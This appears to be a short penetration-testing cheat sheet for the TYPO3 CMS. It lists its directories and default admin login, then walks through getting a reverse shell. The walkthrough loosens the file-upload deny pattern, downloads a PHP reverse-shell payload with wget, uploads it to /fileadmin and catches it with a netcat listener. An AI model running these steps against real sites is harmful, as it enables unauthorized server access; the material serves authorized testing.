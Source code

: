 ```yaml
---
title: TYPO3 Pentesting
description: TYPO3 is a web content management system. It can run on web servers like Apache, Nginx or IIS.
tags:
    - CMS
    - Web
refs:
date: 2022-12-01
draft: false
---
```


## Directory Discovery

```txt
/fileadmin/
/typo3/
/typo3conf/
/typo3temp/
```

<br />

## Default Credentials

```txt
admin:<password-specified-when-installed>
```

<br />

## Reverse Shell (Admin Credential Required)

First, to check and edit the configuration of the uploaded file extension, go to “ADMIN TOOLS” → “Configure Installation-Wide Options” → “Backend” → “fileDenyPattern”.  
Update the configuration if necessary. For example, remove “php[1-9]?”

```txt
\.(phpsh|phtml|pht|phar|shtml|cgi)(\..*)?$|\.pl$|^\.htaccess$
```

Next, prepare the payload for reverse shell named “shell.php”.

```sh
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
```

Go to “FILE” → “Filelist” and upload the payload to the root of /fileadmin.  
Now you need to open listener for getting the shell.

```sh
nc -lvnp 4444
```

Then access to “/fileadmin/shell.php”. You should get the shell.